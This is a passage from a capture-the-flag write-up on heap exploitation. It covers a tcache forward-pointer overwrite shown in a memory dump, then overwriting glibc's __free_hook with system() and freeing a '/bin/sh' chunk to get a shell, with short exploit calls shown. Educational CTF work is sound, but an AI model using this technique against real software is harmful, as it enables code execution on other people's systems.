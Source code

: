 ```
0xcacb10:   0x0000000000000000  0x0000000000000000
0xcacb20:   0x0000000000000000  0x0000000000000000
0xcacb30:   0x0000000000000000  0x0000000000000111
0xcacb40:   0x00007f43934d37cc  0x0000000000ca000a    <-- Forward pointer changed
0xcacb50:   0x0000000000000000  0x0000000000000000
0xcacb60:   0x0000000000000000  0x00000000000000e1
0xcacb70:   0x00007f43934d0c00  0x00007f43934d0c00    <-- Unsorted bin
0xcacb80:   0x0000000000000000  0x0000000000000000
0xcacb90:   0x0000000000000000  0x0000000000000000
0xcacba0:   0x0000000000000000  0x0000000000000000
```

We can see that it's the correct position for our fake forward pointer. Let's see if it's the address of `__free_hook` or not:

![check_free_hook_address.png](images/check_free_hook_address.png)

![free_hook_address.png](images/free_hook_address.png)

That's correct. Let's move on the final stage to get shell!

### Stage 4: Overwrite `__free_hook` with system()

Now, we just need to malloc 2 chunk with the same size as 0x100 to get the address from tcache and with second malloc, we will overwrite the address of system to that. With the first chunk, we will put the string `/bin/sh` into it so we just reuse this chunk to execute system("/bin/sh"):

```
add(11, 0x100, b'/bin/sh')
add(12, 0x100, p64(libc.sym['system']))
```

And finally, we free() chunk index 11 and get shell:

```
free(11)
```

Full code: [solve.py](solve.py)

# 4. Get flag

Poorly, the time passed and the server closed so I cannot connect to it to get the flag but I will run in local:
